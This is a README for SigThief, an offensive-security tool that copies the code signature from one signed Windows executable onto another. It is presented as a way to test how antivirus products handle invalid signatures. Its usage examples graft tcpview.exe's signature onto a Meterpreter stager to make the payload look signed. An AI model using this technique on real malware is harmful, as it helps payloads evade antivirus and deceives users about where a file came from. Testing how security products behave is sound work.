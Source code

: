 # SigThief

New version available to Dev-tier sponsors: https://github.com/sponsors/secretsquirrel

Stable tier will have it End of Month August 2021

---
Stealing Signatures and Making One Invalid Signature at a Time (Unless you read this:
https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

https://twitter.com/subTee/status/912769644473098240
![alt text](https://i.imgur.com/T05kwwn.png "https://twitter.com/subTee/status/912769644473098240")

## For security professionals only...

## What is this?

I've noticed during testing against Anti-Virus over the years that each is different and each prioritize PE signatures differently, whether the signature is valid or not. There are some Anti-Virus vendors that give priority to certain certificate authorities without checking that the signature is actually valid, and there are those that just check to see that the certTable is populated with some value. It's a mess.

So I'm releasing this tool to let you quickly do your testing and feel free to report it to vendors or not. 

In short it will rip a signature off a signed PE file and append it to another one, fixing up the certificate table to sign the file. 

Of course it's **not a valid signature** and that's the point!

I look forward to hearing about your results!


## How to use

### Usage
```
Usage: sigthief.py [options]

Options:
  -h, --help            show this help message and exit
  -i FILE, --file=FILE  input file
  -r, --rip             rip signature off inputfile
  -a, --add             add signautre to targetfile
  -o OUTPUTFILE, --output=OUTPUTFILE
                        output file
  -s SIGFILE, --sig=SIGFILE
                        binary signature from disk
  -t TARGETFILE, --target=TARGETFILE
                        file to append signature too
  -c, --checksig        file to check if signed; does not verify signature
  -T, --truncate        truncate signature (i.e. remove sig)
```

### Take a Signature from a binary and add it to another binary
```
$ ./sigthief.py -i tcpview.exe -t x86_meterpreter_stager.exe -o /tmp/msftesting_tcpview.exe 
Output file: /tmp/msftesting_tcpview.exe
Signature appended. 
FIN.
```

### Save Signature to disk for use later
```
$ ./sigthief.py -i tcpview.exe -r                                                        
Ripping signature to file!
Output file: tcpview.exe_sig
Signature ripped. 
FIN.

```

### Use the ripped signature
```
$ ./sigthief.py -s tcpview.exe_sig -t x86_meterpreter_stager.exe                               
Output file: x86_meterpreter_stager.exe_signed
Signature appended. 
FIN.

```

### Truncate (remove) signature
This has really interesting results actually, can help you find AVs that value Signatures over functionality of code. Unsign putty.exe ;)

```
$ ./sigthief.py -i tcpview.exe -T    
Inputfile is signed!
Output file: tcpview.exe_nosig
Overwriting certificate table pointer and truncating binary
Signature removed. 
FIN.
```

### Check if there is a signature (does not check validity)
```
$ ./sigthief.py -i tcpview.exe -c
Inputfile is signed!
```
